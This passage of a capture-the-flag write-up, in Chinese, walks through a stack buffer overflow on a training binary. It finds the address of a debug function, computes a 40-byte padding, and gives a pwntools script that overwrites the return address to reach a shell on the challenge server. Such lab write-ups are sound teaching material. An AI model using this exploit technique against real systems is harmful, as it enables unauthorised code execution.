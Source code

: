     透過 objdump gdb IDA 等工具可以看到 debug 函數的進入點位置為 `0x4011dd`。

4. **Found address of variable *char v4[32]* has a size of 32 bytes**  
    從 IDA 的 stack 功能可以看到 main 函數中只有 var_20 這個變數，他佔有 32 bytes 的空間；我們需要先蓋掉 var_20 和 saved register 的記憶體才能 overflow 到 return address。如下圖。
    - 不重要的部分 32 + 8 = 40 bytes
    - return address = 8 bytes，可以藉由 `p64(0x4011dd)` 方法把字串補齊成 8 bytes 大小。
    ![stack frame of main](img-stackofmain.png)
    ![poc of bof](img-bof.png)

5. **Exploit script**

```python {linenos=table, linenostart=0}
from pwn import *

# c = process('./bof')

c = remote("up.zoolab.org", 30001)
context.arch = "amd64"
s = c.recvline()
print(s.decode(), end='')
s = c.recvline()
print(s.decode(), end='')

backdoor_address = p64(0x4011dd)
c.sendline(b"A"*40 + backdoor_address) #0x4011dd -> function: debug() -> get webshell: system("sh") -> grep -r FLAG{
```